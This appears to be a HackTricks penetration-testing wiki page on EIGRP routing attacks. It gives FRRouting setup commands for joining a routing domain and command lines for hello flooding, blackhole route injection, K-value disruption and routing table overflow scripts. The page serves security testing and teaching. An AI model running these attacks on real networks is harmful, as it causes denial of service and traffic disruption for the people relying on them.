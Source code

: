 # EIGRP Attacks

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

**This page is based on** [****](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9). Check it for further information.

## Understanding EIGRP Protocol Vulnerabilities <a href="#0f82" id="0f82"></a>

**EIGRP (Enhanced Interior Gateway Routing Protocol)** is identified as a dynamic, distance-vector routing protocol. A critical vulnerability is observed if authentication or configuration of passive interfaces are neglected, leading to potential routing tables poisoning. Furthermore, the structure of the EIGRP network, or autonomous system, is non-segmented, lacking any form of zone divisions. This flat structure implies that injected routes by an attacker could propagate across the entire autonomous system.

![](../../.gitbook/assets/image (25) (1).png)

The initial step in exploiting an EIGRP system involves establishing a connection with a legitimate EIGRP router. This connection opens avenues ranging from reconnaissance to various forms of injections. To facilitate this, [**FRRouting**](https://frrouting.org/), an open-source solution, is utilized to emulate a router on Unix and Linux systems. **FRRouting** supports multiple protocols including BGP, OSPF, and EIGRP. Deployment of FRRouting on an attacker's system enables them to mimic a legitimate router within the routing domain. Detailed instructions for deploying FRR on your system will follow.

### Gathering Network Intelligence <a href="#41e6" id="41e6"></a>

Integration into the routing domain allows for the enumeration and reconnaissance of networks, offering a time-efficient alternative to extensive scanning. This approach not only saves time but also mitigates the risk of detection by IPS/IDS security systems. Achieving this requires the deployment of **FRRouting**.

Modifications are required in the `daemons` configuration file, which controls daemon activities. Activation of the **eigrpd** daemon is necessary.

```bash
~# nano /etc/frr/daemons
eigrpd=yes
```

![](../../.gitbook/assets/image (15) (1).png)

Additionally, adjustments to the **vtysh.conf** file are needed to ensure configurations of various protocols are consolidated into a single file.

```bash
~# nano /etc/frr/vtysh.conf
service integrated-vtysh-config
```

Post-configuration, the initiation of the FRR daemon and enabling of traffic routing (disabled by default in Linux distributions) are required.

```bash
~$ sudo systemctl start frr
~$ sudo sysctl -w net.ipv4.ip_forward=1
```

![](../../.gitbook/assets/image (32).png)

The **vtysh** command provides access to the FRR router control panel.

```bash
~$ sudo vtysh
```

Example usage:

```bash
root# show version
```

![](../../.gitbook/assets/image (3) (2) (2).png)

> Note: EIGRP routing domain might be secured with authentication. However, potential access is still possible by extracting cryptographic hashes from hello packets and resetting the password.

In the global configuration mode, initiate the **EIGRP** process and define the autonomous system number — **1**, along with the network location.

```bash
root# config
root(config)# router eigrp 1
root(config-router) network 10.10.100.50/32
```

Post-establishment of neighbor connections with legitimate EIGRP routers (in this case, **GW1 (10.10.100.100)** and **GW2 (10.10.100.200)**), routers exchange routing information. This process results in the appearance of new routes in the attacking system's routing table, aiding in penetration testing and saving time on subnet scanning. At this stage, the system is part of the EIGRP routing domain and ready for further attack vector development.

![](../../.gitbook/assets/image (5) (1) (2).png)
![](../../.gitbook/assets/image (30) (1).png)
![](../../.gitbook/assets/image (29) (1) (2).png)

### Exploiting EIGRP: Attack Vectors <a href="#51ee" id="51ee"></a>

#### 1. Fake EIGRP Neighbors
Mass sending of EIGRP hello packets can lead to CPU overload on routers, paving the way for DoS attacks. A script, **helloflooding.py**, is employed for this, though its packet sending speed is limited by GIL (Global Interpreter Lock). Plans to rewrite the script in C for enhanced performance are underway.

![](../../.gitbook/assets/image (2) (6) (1).png)

Script usage involves specifying:
- Network interface (e.g., eth0)
- EIGRP autonomous system number (e.g., 1)
- Subnet location (e.g., 10.10.100.0/24)

```bash
~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
```

![](../../.gitbook/assets/image (26) (1).png)

#### 2. EIGRP Blackhole
This attack involves injecting a false route to disrupt traffic flow, commonly referred to as a Blackhole attack. The **routeinject.py** script is utilized for this purpose. For instance, redirecting traffic for `172.16.100.140/32` to a non-existent destination.

![](../../.gitbook/assets/image (16) (1).png)

Script parameters include:
- Attacker’s system interface
- EIGRP AS number
- Attacker’s IP address
- Target subnet IP and its mask

```bash
~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
```

![](../../.gitbook/assets/image (20) (1).png)

The result is a loss of connectivity to the targeted host due to route injection.

![](../../.gitbook/assets/image (6) (1) (1).png)

#### 3. Abusing K-Values
Mismatched K-values among EIGRP routers can disrupt the EIGRP domain. The **relationshipnightmare.py** script exploits this by injecting altered K-values, triggering continuous disruptions and reconnections within the EIGRP domain, effectively resulting in a DoS attack.

![](../../.gitbook/assets/image (12) (2) (1).png)

Script requires:
- Network interface
- EIGRP AS number
- IP Address of a legitimate router

Injected alterations are sent from the specified IP to the multicast EIGRP IP address, causing the mismatch.

```bash
~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
```

![](../../.gitbook/assets/image (9) (1) (4).png)
![](../../.gitbook/assets/image (27) (1).png)

#### 4. Routing Table Overflow
This attack floods the routing table with false routes, straining the router's CPU and RAM. The **routingtableoverflow.py** script facilitates this by rapidly sending numerous false routes.

![](../../.gitbook/assets/image (3) (4).png)

Script parameters:
- Network interface
- EIGRP AS Number
- Attacker’s IP address

Following script execution, the routing table gets saturated with spurious routes, severely affecting router performance.

```bash
sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
```

![](../../.gitbook/assets/image (4) (4).png)
![](../../.gitbook/assets/image (21) (1).png)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
